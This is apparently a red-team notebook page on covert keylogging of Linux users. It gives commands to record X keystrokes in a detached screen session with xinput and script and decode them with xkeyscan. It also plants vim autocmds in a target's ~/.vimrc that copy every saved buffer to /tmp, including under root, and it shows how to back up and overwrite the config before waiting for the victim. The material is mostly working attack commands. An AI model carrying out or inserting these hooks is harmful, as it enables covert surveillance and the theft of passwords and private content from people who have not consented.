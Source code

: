 # Keylogging

## 01 - `script`

Run a multiplexer terminal program to leave it in the background.

```
$ screen -S keylogger

$ export DISPLAY=:0.0

$ export | grep -i display
```

Exporting the keyboard mapping will show the keybindings that can be translated to actual keystrokes.

```
$ xmodmap -pke > xmodmap-pke.txt

$ head -n20 xmodmap-pke.txt
```

Find the virtual core keyboard to record keystrokes then detach the session to leave it in the background with (`CTRL+D`).

```
$ xinput list

$ script -c "xinput test <X_id>" -a xinput-keylogger.log
```

While it's still running in the background use `xkeyscan` ( a python script is included in the references below) to convert the decimal base 10 values to printable ASCII characters.

```
$ python xkeyscan.py xinput-keylogger.log
```

## 02 - `vim`

### 2.1 - Common File Destinations

```
$HOME/.vimrc
$HOME/.vim/plugin/settings.vim
```

### 2.2 - Vim scripts for logging keystrokes

Normal user

```
:autocmd BufWritePost * :silent :w! >> /tmp/vim-keystrokes.txt
```

Under elevated user context when the user is running as `sudo`.

```
:if $USER == "root"
:autocmd BufWritePost * :silent :w! >> /tmp/vim-keystrokes.txt
:endif
```

### 2.3 - Insert keylogging configuration

Gather timestamps and backup the config resource file. Also try to improvise by instead of getting rid of the rest of the vim config content's. Modify it to ensure it contains no syntax errors. Then wait for the target when he interacts with VIM.

```
$ stat ~/.vimrc
$ cp ~/.vimrc /tmp/.vimrc.bak
$ echo "" > ~/.vimrc
$ cat ~/.vimrc
:autocmd BufWritePost * :silent :w! >> /tmp/vim-keystrokes.txt
```

---
## References

- [[Screen]]

- [RedHat: Record your terminal with script and scriptreplay](https://www.redhat.com/sysadmin/record-terminal-script-scriptreplay )

- [xkeyscan](https://github.com/porterhau5/xkeyscan)

- [Natively Keylogging NIX Systems](http://legacy.popped.io/2016/06/natively-keylogging-nix-systems.html)

- [Using xkeyscan to Parse an X-Based Linux Keylogger](https://porterhau5.com/blog/xkeyscan-parse-linux-keylogger/)